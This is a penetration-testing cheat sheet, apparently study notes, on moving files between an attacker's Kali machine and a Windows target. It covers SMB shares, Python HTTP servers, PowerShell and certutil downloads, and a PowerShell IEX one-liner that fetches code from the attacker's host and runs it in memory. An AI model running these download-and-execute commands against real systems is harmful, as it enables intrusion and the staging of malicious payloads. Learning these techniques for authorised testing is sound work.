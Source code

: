 # File transfer

## SMB - from Windows to Kali or vice-versa

On Kali start a SMB share server on the folder you want to be shared
```
cd <path>
impacket-smbserver share $(pwd) -smb2support
```

On the target
```
net use \\<Kali IP>\share
net use
copy \\<Kali IP>\share\<file> .
dir
```
or
```
xcopy \\<Kali IP>\share\<file> C:\<destination_path>\
```

## HTTP - from Kali to target

```
cd <path>
sudo python -m SimpleHTTPServer 80
```
or
```
cd <path>
sudo python3 -m http.server 80
```

### download to Windows

PowerShell
```
Invoke-WebRequest -Uri 'http://<Kali IP>/<filename>' -OutFile <filename> 
```

PowerShell from cmd
```
powershell.exe -command Invoke-WebRequest -Uri http://<Kali IP>/<filename> -OutFile <filename>
```

Download and execute with `Invoke-Expression` without saving file
```
powershell.exe IEX(New-Object Net.WebClient).downloadstring(http://<Kali IP>/<filename>)
```


Certutil
```
certutil -urlcache -split -f 'http://<Kali IP>/<filename>' <path_destiny><filename>
```



## Links
- [file transfer cheatsheet Windows and Linux](https://www.hackingarticles.in/file-transfer-cheatsheet-windows-and-linux/)
- https://infinitelogins.com/2020/09/04/windows-file-transfer-cheatsheet/
- https://blog.certcube.com/file-transfer-cheatsheet-for-pentesters/
- https://fir3wa1-k3r.github.io/2018/10/17/File-Transfer-cheatsheet.html